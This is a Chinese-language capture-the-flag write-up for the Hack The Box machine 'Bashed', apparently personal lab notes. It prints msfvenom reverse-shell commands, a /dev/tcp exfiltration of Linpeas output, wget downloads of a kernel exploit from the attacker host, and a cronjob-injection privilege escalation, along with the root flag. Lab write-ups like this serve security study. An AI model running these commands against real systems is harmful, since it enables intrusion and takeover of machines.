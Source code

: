 # Bashed
- URL : https://app.hackthebox.eu/machines/118
- IP : 10.129.209.72

## Recon
- Rustscan
    - ![](https://i.imgur.com/Gzn6aaI.png)
- Web
    - dirsearch 發現 `/dev/` 裡面有 phpbash
    - ![](https://i.imgur.com/CEV1y93.png)
## PHP Bash
- 可以直接用 `cat /etc/passwd` 指令
    - ![](https://i.imgur.com/Mn8RtoD.png)
## Reverse shell
- 直接戳習慣的 reverse shell 會自動離開
    - ![](https://i.imgur.com/UbQwxps.png)
- 改戳 msf 的 reverse shell
    - `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.16.35 LPORT=7877 -f elf > shell`
- 就順利接上了
    - ![](https://i.imgur.com/6EMqQL4.png)
- spawn shell
    - `python -c 'import pty; pty.spawn("/bin/bash")'`
## 提權
- 起手式 sudo -l
    - ![](https://i.imgur.com/RGFg6i1.png)
    - 可以切換使用者到 `scriptmanager` 
    - `sudo -u scriptmanager bash`
    - ![](https://i.imgur.com/E54urqk.png)
- 跑 Linpeas 傳回來
    - cat s_peas.txt >  /dev/tcp/10.10.16.35/1234
- 使用 CVE-2017-16995 Kernel Exploit
    - ![](https://i.imgur.com/uLsG5BC.png)
    - `wget http://10.10.16.35/CVE-2017-16995/exploit`
    - ![](https://i.imgur.com/YFQAis2.png)
        - 成功提權
- 取得 Root Flag
    - `cc4f0afe3a1026d402ba10329674a8e2`
    - ![](https://i.imgur.com/k6UvzjE.png)
    - ![](https://i.imgur.com/JFxqKcf.png)
## 提權 2
- 觀察 `/scripts`
    - 裡面看起來 是 cronjob 跑 Python
    - ![](https://i.imgur.com/45ZNDR8.png)
- 用 msf 再生一個 reverse shell (跟目前不同 port)
    - `msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.16.35 LPORT=7878 -f elf > shell1`
- 傳到靶機加權限
    - `wget 10.10.16.35/shell1`
    - `chmod 777 shell1`
- 寫入 cron job 的 py
    - `echo 'import os' >> test.py`
    - `echo 'os.system("/scripts/shell1")' >> test.py`
- 收到 Reverse shell
    - ![](https://i.imgur.com/0P5Pivo.png)
